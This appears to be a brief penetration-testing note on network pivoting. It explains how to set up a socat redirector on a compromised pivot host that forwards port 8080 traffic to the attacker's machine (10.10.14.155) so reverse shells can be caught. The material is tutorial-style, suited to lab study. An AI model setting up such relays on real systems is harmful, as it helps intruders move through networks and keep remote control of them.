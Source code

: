 
Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts a redirector that can listen on one host and port and forward that data to another IP address and port



#### Setting up a redirector using socat

We can use socat to setup a redirector on the pivot box, that will redirect all traffic coming to a particular port to the attacker's machine

```bash
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.155:80
```


This command will make the pivot box listen on port 8080 for incoming traffic and redirect all data to 10.10.14.155 on port 80, which is controlled by the attacker. 


P.S: In the context of pivoting,  Socat only eliminates the need for setting up a remote port forward  to catch reverse shells. We would still need a dynamic port forwarding (either via SSH or chisel) to reach the target via the pivot box. 